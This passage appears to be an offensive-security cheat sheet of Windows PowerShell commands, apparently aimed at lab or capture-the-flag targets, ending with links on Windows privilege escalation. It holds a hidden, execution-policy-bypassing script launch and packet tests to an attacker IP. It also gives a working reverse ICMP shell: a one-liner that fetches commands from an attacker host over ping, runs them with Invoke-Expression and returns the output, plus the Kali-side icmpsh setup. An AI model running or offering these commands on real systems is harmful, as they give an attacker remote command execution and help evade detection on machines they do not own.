 ```
C:\> powershell -exec bypass -windowstyle hidden -nop -file c:\path\to\file.ps1
```

> ###### Stream contents of file

```
C:\> Get-Item /path/to/file.zip -Stream *
```

> ###### Get permissions of directory/file

```
C:\> Get-ACL C:\path\to\file\or\directory
```

> ###### Packet testing

```
# TCP
# Setup TCP Listener ie: netcat
C:\> powershell -Command '$client = New-Object System.Net.Sockets.TcpClient;$client.Connect( "10.10.14.42", 8000 );[Byte[]] $packet = [Text.Encoding]::ASCII.GetBytes("pie")$client.Send($packet, $packet.Length);$client.Close();'

# UDP
# Setup UDP Listener ie: socat
C:\> powershell -Command '$client = New-Object System.Net.Sockets.UdpClient;$client.Connect( "10.10.14.42", 8000 );[Byte[]] $packet = [Text.Encoding]::ASCII.GetBytes("pie");$client.Send($packet, $packet.Length);$client.Close();'

# ICMP
Kali> sudo python icmpsh_m.py $ATTACKER $TARGET
C:\> powershell -Command '$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $True;$packet = [Text.Encoding]::ASCII.GetBytes("pie");$client.Send("10.10.14.42", 500, $packet, $options);'
```

> ###### Reverse ICMP shell

```
Kali> sudo bash -c "echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all"
Kali> sudo python icmpsh_m.py $ATTACKER $TARGET

C:\> powershell -nop -Command "$IP = '10.10.14.42';$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $true;$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes('pie'), $options);while($true){$comms = $client.Send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes(''), $options);if($comms.Buffer){ $cmd = ([Text.Encoding]::ASCII).GetString($comms.Buffer);$reply = (Invoke-Expression -Command $cmd | Out-String);$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes($reply), $options);}}"
```

##### Services

[Windows Privilege Escalation via weak Service Permissions](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)

[The Art of Becoming TrustedInstaller](https://tyranidslair.blogspot.com/2017/08/the-art-of-becoming-trustedinstaller.html)
